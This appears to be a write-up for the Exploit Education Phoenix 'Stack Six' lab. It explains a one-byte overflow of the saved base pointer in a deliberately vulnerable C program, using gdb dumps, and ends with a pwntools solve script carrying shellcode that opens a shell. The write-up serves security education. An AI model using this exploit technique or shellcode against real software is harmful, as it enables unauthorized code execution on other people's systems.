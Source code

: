 ```yaml
---
title: "Stack Six"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

This level exploits the 1‑byte buffer overflow, to learn more about it read the references at the end.

This code reads the environment variable **ExploitEducation** and passes it to **greet** function in the variable **who**.

Then it copies **GREET** message to the buffer which in this case is "Welcome, I am pleased to meet you ".

After that it check for input size (maximum size is 127).

Now comes the bug, it copies the input to buffer + 34 (GREET length) so if our input size is 127 which is the maximum we could overflow the buffer and write 34 bytes past it.

So in total we are allowed to write 34 + 127 = 161 bytes, is it enough to overwrite the return address and redirect code execution ???

Unfortunately the answer it no, we can only overwrite the lowest byte of the saved **RBP**.

> #### Quick tips:
>
> - You can add these lines to **".gdbinit"** file to adjust gdb addresses to be more realistic.
>
>
> ```
> unset env LINES
> unset env COLUMNS
> set env _ /opt/phoenix/amd64/stack-six
> ```
>
> 
>
> - Keep the length of your exploit fixed every time to avoid shifting memory addresses (and to avoid the headache).



```
$ export ExploitEducation=$(python -c "print 'A'*161")			# Fill ExploitEducation env variable with 127 A's

$ gdb -q /opt/phoenix/amd64/stack-six 
Reading symbols from /opt/phoenix/amd64/stack-six...(no debugging symbols found)...done.

gef➤  disassemble greet 
Dump of assembler code for function greet:
.....
   0x000000000040077a <+125>:	mov    rdi,rcx
   0x000000000040077d <+128>:	call   0x400550 <strncpy@plt>
   0x0000000000400782 <+133>:	lea    rax,[rbp-0xa0]			# address of who
   0x0000000000400789 <+140>:	mov    rdi,rax
   0x000000000040078c <+143>:	call   0x400560 <strdup@plt>
.....

gef➤  b *0x0000000000400782
Breakpoint 1 at 0x400782

gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Breakpoint 1, 0x0000000000400782 in greet ()

gef➤  info registers rbp
rbp            0x7fffffffe590      0x7fffffffe590

gef➤   x/22xg $rbp-0xa0
0x7fffffffe510:	0x2c656d6f636c6557	0x6c70206d61204920
0x7fffffffe520:	0x6f74206465736165	0x6f79207465656d20
0x7fffffffe530:	0x4141414141412075	0x4141414141414141
0x7fffffffe540:	0x4141414141414141	0x4141414141414141
0x7fffffffe550:	0x4141414141414141	0x4141414141414141
0x7fffffffe560:	0x4141414141414141	0x4141414141414141
0x7fffffffe570:	0x4141414141414141	0x4141414141414141
0x7fffffffe580:	0x4141414141414141	0x4141414141414141
0x7fffffffe590:	0x4141414141414141	0x4141414141414141
0x7fffffffe5a0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5b0:	0x00007fffffffe541	0x00000000004007e9
```

As you can see we were able to only overwrite the first byte of the saved **RBP** (remember that this is the base pointer of the calling function"main").

We know that this modified **RBP** will be used to restore **RSP** at the end of **main** function and then jump to the return address, so the idea of the exploit is modifying **RBP** to point to a an address where **RBP+8** (which will be the return address of main) points somewhere in the environment variable **ExploitEducation**.

We can get the address of **ExploitEducation** using many ways like dumping the stack until we find it (environment variables are at the end of the stack).

Here I used the command **grep** which is an alias for **search-pattern**.

```
gef➤  grep ExploitEducation=
[+] Searching 'ExploitEducation=' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffeeff - 0x7fffffffef36  →   "ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```

As you can see our input address starts at **0x7fffffffeeff**, but we need the start of the input to the real start is **0x7fffffffeeff + len("ExploitEducation=") = 0x7fffffffef10**.

So the return address must point somewhere inside **0x7fffffffef10** and **0x7fffffffef10+126**.

As we can only change the last byte of **RBP**, it's value can be between **0x7fffffffe501** and **0x7fffffffe5ff**, so let's put a breakpoint at the end of main and see if there is a good address we can jump to in this range.

```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x00000000004007e4 <+73>:	call   0x4006fd <greet>
   0x00000000004007e9 <+78>:	mov    rdi,rax
   0x00000000004007ec <+81>:	call   0x400530 <puts@plt>
   0x00000000004007f1 <+86>:	mov    eax,0x0
   0x00000000004007f6 <+91>:	leave

gef➤  b *0x00000000004007f6
Breakpoint 2 at 0x4007f6

gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Breakpoint 1, 0x00000000004007f6 in main ()

gef➤   x/32xg 0x7fffffffe500
0x7fffffffe500:	0x00007ffff7ffc948	0x00000000000000a6
0x7fffffffe510:	0x0000000000000001	0x00007ffff7db6d0f
0x7fffffffe520:	0x00007ffff7ffc948	0x00000000000000a6
0x7fffffffe530:	0x00007fffffffe58f	0x0000000000000001
0x7fffffffe540:	0x4141414141414141	0x00007ffff7ffb300
0x7fffffffe550:	0x0000000000000000	0x0000000000600c00
0x7fffffffe560:	0x000000000040079b	0x0000000000000000
0x7fffffffe570:	0x0000000000000000	0x00007ffff7db6b1e
0x7fffffffe580:	0x00007ffff7ffb300	0x0a00000000000000
0x7fffffffe590:	0x00007ffff7ffb300	0x00007ffff7db9934
0x7fffffffe5a0:	0x4141414141414141	0x00007fffffffe541
0x7fffffffe5b0:	0x00007fffffffe648	0x00000000004007f1
0x7fffffffe5c0:	0x00007fffffffe638	0x00000001ffffe648
0x7fffffffe5d0:	0x000000000040079b	0x00007fffffffef10
0x7fffffffe5e0:	0x0000000000000001	0x00007ffff7d8fd62
0x7fffffffe5f0:	0x0000000000000000	0x00007fffffffe630
```

And viola!!!, we get **0x00007fffffffef10** at address **0x7fffffffe5d8** so we overwrite **RBP** to be **0x7fffffffe5d0** and that's it, the **leave** instruction will move RBP to RSP and pop the top value of the stack to RBP (which is at 0x7fffffffe5d0) then the **ret** will pop the next value to RIP (which is at 0x7fffffffe5d8).

So the whole idea was to overwrite **RBP** to point to an address where **RBP+8** is the address of our shellcode, so that at the end of the calling function the value of **RIP** will point to that address.

# Solution:

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90' * 20		# some NOP sled is always good :)
buff += shellcode
buff += 'A' * (126 - len(buff))
buff += '\xd0'

print(buff)
```

```
$ export ExploitEducation=$(python solve.py)
$ /opt/phoenix/amd64/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you 1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
$ whoami
phoenix-amd64-stack-six
```

Note: the 32bit version might have a slightly different solution, but the idea is still the same.

#### References:

[https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows](https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows)